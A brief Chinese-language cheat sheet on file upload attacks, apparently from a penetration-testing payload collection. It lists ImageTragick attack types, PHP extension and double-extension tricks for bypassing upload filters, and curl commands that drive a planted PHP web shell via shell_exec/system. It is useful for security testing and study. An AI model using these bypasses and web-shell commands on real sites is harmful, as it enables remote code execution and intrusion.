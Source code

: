 # 上传
如果不正确处理，上传的文件可能会带来很大的风险。远程攻击者可以使用特定的文件名或mime类型发送多部件/表单数据POST请求，并执行任意代码。

## 开发
图像的悲剧（Image Tragik）
```
HTTP Request
Reverse Shell
Touch command
```

PHP扩展
```
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

PNG不需要调整大小 - 上传图片并使用本地文件
```
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

JPG绕过调整大小 - 上传图片并使用本地文件包含
```
http://localhost/test.php?c=ls
```

## 致谢
* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
